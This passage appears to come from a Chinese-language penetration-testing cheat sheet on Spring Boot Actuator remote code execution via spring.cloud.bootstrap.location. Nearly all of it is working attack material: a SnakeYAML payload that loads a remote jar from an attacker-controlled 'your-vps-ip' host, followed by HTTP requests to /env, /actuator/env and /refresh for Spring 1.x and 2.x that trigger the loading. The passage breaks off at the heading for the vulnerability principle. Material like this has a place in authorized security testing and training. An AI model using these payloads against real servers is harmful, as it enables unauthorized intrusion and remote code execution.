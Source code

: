 ```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://your-vps-ip/example.jar"]
  ]]
]

```

在网站根目录下放置后缀为 `jar` 的文件 `example.jar`，内容是要执行的代码，代码编写及编译方式参考 yaml-payload。

##### 步骤二：设置 spring.cloud.bootstrap.location 属性

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/example.yml


```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/example.yml"}


```

##### 步骤三：刷新配置

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded



```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json



```

#### 漏洞原理：
